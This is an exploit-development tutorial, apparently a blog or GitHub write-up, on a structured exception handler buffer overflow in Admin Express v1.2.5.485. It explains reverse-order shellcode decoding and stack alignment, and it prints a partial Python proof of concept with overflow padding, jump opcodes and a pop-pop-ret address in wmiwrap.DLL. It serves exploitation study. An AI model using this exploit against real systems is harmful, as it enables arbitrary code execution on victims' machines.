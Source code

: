 Here is an analogy of what I am trying to relay. Imagine I ask you to write an essay. In English, we start with the top left hand of the page and we write from left to right until we reach the bottom right hand corner. There is only one stipulation for this essay I would like you to write. I would like you to start at the bottom of the page and work your way up. If you started with the last word of your essay in the bottom right hand corner of the page, and continued to write backwards from right to left, you would have a coherent essay in the end! The only difference is that you wrote it in reverse order. If this analogy does not make sense, I have a diagram further along in this writeup that will give a bit of a visual to this sentiment I am trying to relay.

Let me reiterate one more time, with a diagram. Imagine we have 4 lines of shellcode. Here is what would happen. Execution of the encoded instructions would happen from the lower addresses and continue to the higher addresses. As each __decoded__ instruction is calculated, it would get pushed onto the stack, and be located at ESP. As each encoded instruction gets executed, the decoded instructions would start piling up from the stack pointer, towards the lower addresses. Here is a diagram (I will give more detail about this diagram later):

```console
LOWER ADDRESSES
4th decoded instruction
3rd decoded instruction
2nd decoded instruction
1st decoded instruction
HIGHER ADDRESSES
```
If we write our shellcode properly, taking into consideration little endian and how the stack writes after a `push` instruction, we can take the fact execution goes from lower to higher addresses, and we will find ourselves executing our actual decoded shellcode.

Before we align the stack, recall what was mentioned above about saving the current stack pointer (after all our jumps). Since we need to save the stack pointer, let's use `ECX`. To do this, we are going to use a `push esp` instruction to get the current stack pointer value onto the stack. We then are going to use a `pop ecx` instruction to pop whatever is on top of the stack (which is the stack pointer now), into `ECX`. Then, we will `push ecx`, to get the old stack pointer onto the stack, in order to perform a `MOV ECX,ESP` later. Here is the updated PoC:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

# We need to save the current stack pointer before execution of shellcode, due to
# old stack pointer value needed when executing our payload of calc.exe. This puts the current stack pointer 0x0012DC98 into ECX, to be used later
restore = "\x54"                        # push esp; (pushing the current value of ESP, which needs to be restored later, onto the stack)
restore += "\x59"                       # pop ecx; (holding the value of old ESP in ECX, to be called later.)
restore += "\x51"                       # push ecx; (to get the value on the stack for the mov esp command later)

# All togther now.
payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += restore
```